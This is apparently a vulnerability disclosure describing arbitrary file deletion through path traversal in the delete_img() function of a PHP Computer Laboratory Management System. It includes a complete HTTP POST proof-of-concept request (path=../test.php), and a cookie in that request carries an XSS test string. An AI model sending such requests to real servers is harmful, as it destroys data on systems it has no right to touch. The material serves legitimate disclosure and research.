 #### Arbitrary file deletion exists in the /classes/Master.php file of the Computer Laboratory Management System, caused by the `delete_img()` function.

**code analysis:**

![QQ20240830-152841](https://raw.githubusercontent.com/gaorenyusi/img/master/img/QQ20240830-152841.png)

You can change `$path` to any file name by overriding it with a variable.

**Demonstration of the vulnerability**

Create the file test.php in the php_lms directory

![QQ20240830-153538](https://raw.githubusercontent.com/gaorenyusi/img/master/img/QQ20240830-153538.png)

![QQ20240830-153648](https://raw.githubusercontent.com/gaorenyusi/img/master/img/QQ20240830-153648.png)

```
POST /classes/Master.php?f=delete_img HTTP/1.1
Host: localhost:98
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 16
Origin: http://localhost:98
Connection: keep-alive
Referer: http://localhost:98/?XDEBUG_SESSION_START=14848
Cookie: Phpstorm-9dbbfc29=4d9b54b0-3f53-4e67-ae29-a3fb9f021bbb; user=admin; name=aa%3Cscript%3Ealert%28111%29%3C%2Fscript%3E; mail=86226999%40qq.com; url=http%3A%2F%2F127.0.0.1; PHPSESSID=leagsbs030cq18dj30osfipt3t; XDEBUG_SESSION=14848
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Priority: u=0, i

path=../test.php
```

Go back to the directory and see that the file has been deleted successfully

![QQ20240830-153718](https://raw.githubusercontent.com/gaorenyusi/img/master/img/QQ20240830-153718.png)
